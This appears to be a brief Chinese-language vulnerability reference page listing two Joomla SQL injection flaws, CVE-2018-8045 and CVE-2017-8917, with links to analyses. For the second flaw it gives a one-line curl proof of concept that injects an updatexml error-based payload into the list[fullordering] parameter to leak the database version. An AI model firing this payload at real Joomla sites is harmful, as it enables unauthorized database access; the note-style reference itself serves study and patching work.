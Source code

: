### CVE-2018-8045

后台 `filter[category_id]` SQL 注入漏洞

参考链接

* [【漏洞分析】Joomla内核SQL注入漏洞（CVE-2018-8045）分析](http://blog.nsfocus.net/cve-2018-804-analysis/)

### CVE-2017-8917 - com_fields fullordering 注入

参考链接

* [Joomla! 3.7 Core SQL Injection (CVE-2017-8917)](https://www.seebug.org/vuldb/ssvid-93113)

Poc

```
curl -g '127.0.0.1/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml(2,concat(0x7e,(version())),0)' | grep XPATH
```

